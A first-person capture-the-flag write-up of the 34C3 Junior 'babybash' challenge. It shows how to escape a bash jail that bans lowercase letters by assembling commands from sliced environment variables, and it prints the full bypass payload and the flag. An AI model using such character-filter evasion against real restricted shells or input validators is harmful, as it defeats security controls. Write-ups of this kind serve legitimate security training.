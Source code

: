 # Babybash  
## Challenge  
The challenge was of the difficulty "medium" and the URl to the archived
challenge is:  
[babybash](https://archive.aachen.ccc.de/junior.34c3ctf.ccc.ac/challenges/index.html#challenge-
panel-body-25)  
The task:  
> If you're a baby and know bash, try this:  
> `nc 35.189.118.225 1337`

When you connect to the target system, you find out that most commands are not
accepted and that you should type `help` to find out more. If you type help,
you get a message, telling you that you you are in a bash-jail and you need to
execute  
```  
/get_flag  
```  
... but you are not allowed to use  
* a-z  
* \*  
* ?  
* .

So you may not use any lower case characters, but you need to execute a lower
case binary.  
After fiddling around with the shell, I came up with the following solution...  
## ${Environment_Variables_Solution}  
In newer bash versions, you can access variables and also cut out single
characters of variables, using the following syntax:  
```  
${VARAIBLE_NAME:STARTING_POSITION:COUNT_OF_CHARACTERS}  
```

So, what I wanted to do is to cut out the correct required characters, to get
the required command.

While fiddeling around with the shell, I found out that there is a timeout,
that will log you out after some time. Some environment variables were only
temporary, meaning that their content was depending on your current session.

To solve the challenge, I needed to find appropriate environment variables,
that ideally should be stable because of the automatic timeout.  
In my final solution, I used the following environment variables:  
```  
OSTYPE=linux-gnu  
HOSTNAME=28e32c6defa5  
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin  
HOME=/tmp/35bc811cfbed0af609271fe0e3eed49f5fe7f184  
```

### /get_flag  
The following syntax got me /get_flag:  
```  
/${OSTYPE:6:1}${HOSTNAME:2:1}${HOME:1:1}_${HOSTNAME:9:1}${PATH:5:1}${HOSTNAME:10:1}${OSTYPE:6:1}  
```

Expecting this challenge to be done now, I was already excited - just to be
greeted by the message, that the command requires and argument:

```  
/get_flag: /get_flag gimme_FLAG_please  
```

I was thinking "NOOO now I must find more characters in my environment ...
argh".  
But then I thought of a shortcut.

### /get_flag gimme_FLAG_please  
So, I don't need to find anything new, I can just use the output of
`/bin/get_flag`, write it to a file and then cut the required data from that
file and execute it.

So what I want to execute is:  
```  
/get/flag > BAR  
#writes "/get_flag: /get_flag gimme_FLAG_please" to file BAR  
$(cat BAR | cut -d  -f 2,3)   
#which cuts the the string "/get_flag gimme_FLAG_please" and executes it  
```

My final solution was:

```  
/${OSTYPE:6:1}${HOSTNAME:2:1}${HOME:1:1}_${HOSTNAME:9:1}${PATH:5:1}${HOSTNAME:10:1}${OSTYPE:6:1}
>BAR

$( ${HOSTNAME:5:1}${HOSTNAME:10:1}${HOME:1:1} BAR | ${HOSTNAME:5:1}${PATH:1:1}${HOME:1:1} -${HOSTNAME:7:1}" "  -${HOSTNAME:9:1} 2,3)  
```  
Resulting in the message:  
```  
Good job!

Here's your flag: 34C3_LoOks_lik3_y0U_are_nO_b4by_4ft3r_4ll  
```

Wooohoo!

## Disclaimer  
This is my first writeup. I hope, you enjoy this interesting but inefficient
solution.